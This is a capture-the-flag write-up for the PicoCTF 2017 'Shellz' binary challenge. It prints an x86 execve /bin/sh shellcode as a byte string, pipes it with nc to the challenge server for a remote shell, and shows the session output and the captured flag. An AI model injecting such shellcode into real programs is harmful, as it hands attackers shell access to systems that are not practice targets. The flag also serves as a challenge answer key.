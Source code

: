 # PicoCTF_2017: Shellz

**Category:** Binary
**Points:** 55
**Description:**

>You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:23459.

**Hint:**

>There is a bunch of preexisting shellcode already out there!

## Write-up
The biggest problem with this challenge is the limited amount of shellcodes that would actually work here. It probably took me like 15 tries before I got the [correct shellcode](http://shell-storm.org/shellcode/files/shellcode-575.php). So first, prepare the payload.

    python -c "print('\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')" > payload

Then, use the payload like this

    cat payload - | nc shell2017.picoctf.com 12562
    My mother told me to never accept things from strangers
    How bad could running a couple bytes be though?
    Give me 40 bytes:
    ls
    flag.txt
    shellz
    shellz_no_aslr
    xinetd_wrapper.sh
    cat flag.txt
    a15898b0a97abc19164f240407d6c51b

or 

	(python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"'; cat -) | nc shell2017.picoctf.com 23459
	My mother told me to never accept things from strangers
	How bad could running a couple bytes be though?
	Give me 40 bytes:
	ls
	flag.txt
	shellz
	shellz_no_aslr
	xinetd_wrapper.sh
	cat flag.txt
	5b5ba2c3b5558ec86315fd52b0c55a87

Therefore, the flag is `5b5ba2c3b5558ec86315fd52b0c55a87`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEyNjQ5MzAyMTcsLTQ0NzM1Mjc0XX0=
-->